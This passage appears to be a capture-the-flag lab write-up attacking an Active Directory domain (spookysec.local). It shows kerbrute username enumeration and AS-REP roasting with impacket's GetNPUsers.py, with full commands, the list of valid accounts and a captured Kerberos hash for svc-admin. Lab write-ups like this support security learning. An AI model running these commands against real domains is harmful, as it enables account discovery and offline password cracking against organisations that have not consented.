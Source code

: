 I ran kerbrute and got a big list of valid usernames.

```
$ ./kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local -t 100 userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/15/21 - Ronnie Flathers @ropnop

2021/04/15 05:36:49 >  Using KDC(s):
2021/04/15 05:36:49 >  	spookysec.local:88

2021/04/15 05:36:49 >  [+] VALID USERNAME:	 james@spookysec.local
2021/04/15 05:36:50 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2021/04/15 05:36:50 >  [+] VALID USERNAME:	 James@spookysec.local
2021/04/15 05:36:50 >  [+] VALID USERNAME:	 robin@spookysec.local
2021/04/15 05:36:52 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2021/04/15 05:36:53 >  [+] VALID USERNAME:	 administrator@spookysec.local
2021/04/15 05:36:55 >  [+] VALID USERNAME:	 backup@spookysec.local
2021/04/15 05:36:56 >  [+] VALID USERNAME:	 paradox@spookysec.local
2021/04/15 05:37:03 >  [+] VALID USERNAME:	 JAMES@spookysec.local
2021/04/15 05:37:10 >  [+] VALID USERNAME:	 Robin@spookysec.local
2021/04/15 05:37:23 >  [+] VALID USERNAME:	 Administrator@spookysec.local
2021/04/15 05:37:56 >  [+] VALID USERNAME:	 Darkstar@spookysec.local
2021/04/15 05:38:04 >  [+] VALID USERNAME:	 Paradox@spookysec.local
2021/04/15 05:38:36 >  [+] VALID USERNAME:	 DARKSTAR@spookysec.local
2021/04/15 05:38:46 >  [+] VALID USERNAME:	 ori@spookysec.local
2021/04/15 05:39:02 >  [+] VALID USERNAME:	 ROBIN@spookysec.local
2021/04/15 05:39:54 >  Done! Tested 73317 usernames (16 valid) in 184.867 seconds

```

Next up, we try to get extract information from some of these accounts. What we are about to do is known as AS-REP roasting. Here is my best understanding:

`In active directory there is an option which allows users to request user data without any authentication. This was allowed because the data returned is encrypted using the users password. **But** we can use some part of the returned encrypted data ( a TGT to be exact) to bruteforce for a password using a wordlist.`

To get the accounts which have this setting we use the impacket's GetNPUsers.py script. To get the user accounts I just copied the output of kerbrute and did some bash magic.

`$ cat kerbruteOutput | cut -d' ' -f8 > validUsers.txt`

Next we use the GetNPUsers script.

```
GetNPUsers.py -usersfile validUsers spookysec.local/svc-admin 
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[-] User james@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:f7abb51f87ed3e343af9c0f9c7b63241$682507edb4e7f32c9f1031f15f7300112adba603d2eaf94a4eda89d13ae2c5479c99fd7f6db466887c5840a48bb760178adba5f203cb4caa0770e667c53e70defafdc10a3927842be22aa5281006446dd6d55ce458dbc45574c6194aed76a38101eb15458ca534742939f4650cb9f24be4e9055a66edb005eab7b13190f8e18f63d2daa2a785cca7f1aa1f5e256b262078ce370897d6d9ad12994f32b775ca39e3f1b6e2c4a873eb7356b1eca16e4f2e12591c0a0741519c01d76788d3c890c73e7aaa35ae3288181f6161d998d97a0b5e520025a2dcb1af8853b19784f5eb8d3b570840d7c07892c2e7083bc5353bb49389
[-] User James@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
```